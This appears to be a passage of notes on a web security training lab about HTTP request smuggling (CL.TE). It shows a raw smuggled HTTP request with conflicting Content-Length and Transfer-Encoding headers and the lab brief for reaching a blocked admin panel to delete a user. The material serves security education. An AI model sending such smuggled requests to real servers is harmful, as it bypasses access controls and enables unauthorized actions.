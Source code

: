 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

58
GET /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/69aa08f9f027f20cbff968e97c903f16.png)

06 Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
===============================================================================================

This lab involves a front-end and back-end server, and the front-end server
doesn't support chunked encoding. There's an admin panel at /admin, but the
front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the
admin panel and deletes the user carlos.

Note: Although the lab supports HTTP/2, the intended solution requires
techniques that are only possible in HTTP/1. You can manually switch protocols
in Burp Repeater from the Request attributes section of the Inspector panel.

Tip: Manually fixing the length fields in request smuggling attacks can be
tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can
install it via the BApp Store.
